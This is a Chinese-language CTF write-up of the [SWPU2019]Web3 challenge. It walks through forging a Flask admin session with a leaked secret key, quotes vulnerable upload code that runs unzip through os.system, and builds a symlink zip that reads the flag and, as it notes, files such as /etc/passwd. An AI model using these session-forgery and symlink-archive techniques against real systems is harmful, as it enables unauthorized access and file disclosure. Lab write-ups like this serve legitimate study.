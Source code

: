 ```yaml
---
title: '[SWPU2019]Web3'
date: 2024-10-15 15:17:15
tags: 软连接压缩包
categories: 刷题笔记
---
```


### [SWPU2019]Web3

我们注册登录，发现一个上传功能

![image-20241015153111209](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151531297.png)

当我们点击时，页面提示我们权限不够

![image-20241015153135371](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151531459.png)

像这种情况一般就是伪造session

<!--more-->

我们将session解码得到

```
{'id': b'100', 'is_login': True, 'password': '1', 'username': '1'}
```

![image-20241015153231819](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151532847.png)

为了获得更高的权限我们需要将100改成1

但我们需要密钥

通过测试发现，当我们访问一个不存在的目录时

就会出现一个token

![image-20241015153431752](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151534012.png)

我们将这个进行解码，得到米亚

![image-20241015153503555](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151535607.png)

那我们开始伪造session

```
{'id': b'1', 'is_login': True, 'password': 'admin', 'username': 'admin'}
```

```
 python session_encode.py encode -s "keyqqqwwweee!@#$%^&*" -t "{'id': b'1', 'is_login': True, 'password': 'admin', 'username': 'admin'}"

```

![image-20241015154327353](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151543387.png)

我们修改session的值，得到了更高的权限

![image-20241015154353313](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151543390.png)

我们点击upload后，在页面注释中发现代码

```
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

定义两个路由,上传的那个路由就是上传一个压缩的图片,服务器进行解压再显示图片,我们这里可上传一个软连接压缩包,来读取其他文件,showflag路由告诉我们flag.jpg放在flask根目录的flag目录下

> ln是Linux的一种软连接，类似与windows的快捷方式
>
> ln -s /etc/passwd forever404 这会出现一个forever文本，里面包含密码
>
> /proc/self 记录了系统运行的信息状态等，cwd指向当前进程运行目录的一个符号链接，即flask一下进程目录



```
ln -s /proc/self/cwd/flag/flag.jpg test
zip -ry root.zip test
```

其中zip命令的参数含义如下：

```
-r：将指定的目录下的所有子目录以及文件一起处理

-y：直接保存符号连接，而非该连接所指向的文件，本参数仅在UNIX之类的系统下有效。

```

![image-20241015162734926](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151627975.png)

将zip文件上传然后抓包

得到flag

![image-20241015162758812](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410151627905.png)
